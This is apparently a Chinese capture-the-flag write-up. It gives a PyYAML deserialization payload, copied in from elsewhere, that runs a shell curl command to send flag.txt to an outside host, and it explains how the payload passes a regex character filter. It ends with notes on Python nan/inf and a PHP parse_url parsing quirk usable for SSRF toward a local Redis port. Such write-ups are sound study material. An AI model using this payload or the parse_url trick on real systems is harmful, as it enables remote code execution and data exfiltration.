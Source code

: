 百度一下为啥不安全，yaml反序列化注入get



直接抄来一个exp

```yaml
!!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "\x5f\x5fimport\x5f\x5f('os')\x2esystem('curl -POST mil1\x2eml/jm9 -F x=@flag\x2etxt')"
```



看下进入`info = yaml.load(data)` 的前提

`re.fullmatch(b"^[ -\-/-\]a-}\n\r]*$",data, flags=re.MULTILINE)`

利用[regex101](https://regex101.com/)读懂这个的意思，其实就是禁止出现

```
.^_`~
```

这几个字符

这个payload完美符合所有条件

一定要注意payload不能出现\r



## 总结

python的float类型有两个特殊的值：nan(not a number),inf(infinity,无穷)

**php parse_url 小trick**

`var_dump(parse_url("http:/ctf.ccreater.top:5000/"))`

```
array(2) {
  'scheme' =>
  string(4) "http"
  'path' =>
  string(23) "/ctf.ccreater.top:5000/"
}
```

`http://foo@127.0.0.1:6379%20@www.baidu.com/`:https://bugs.php.net/bug.php?id=77991

```
var_dump(parse_url("http://foo@127.0.0.1:6379%20@www.baidu.com"));
php shell code:1:
array(4) {
  'scheme' =>
  string(4) "http"
  'host' =>
  string(13) "www.baidu.com"
  'user' =>
  string(13) "foo@127.0.0.1"
  'pass' =>
  string(7) "6379%20"
}
```



python 中的yaml.load也存在反序列化问题